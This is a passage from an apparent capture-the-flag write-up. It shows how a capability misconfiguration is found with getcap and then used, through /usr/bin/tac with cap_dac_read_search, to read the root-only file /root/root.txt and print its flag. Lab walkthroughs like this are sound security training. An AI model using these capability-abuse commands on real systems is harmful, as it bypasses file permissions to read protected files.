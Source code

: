 ~~~
{% highlight shell %}
$ /sbin/getcap -r / 2>/dev/null        
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
{% endhighlight %}

We found tac command.<br>
Finally, what we have to do is specify full path of tac command and root.txt

{% highlight shell %}
$ /usr/bin/tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6c
{% endhighlight %}
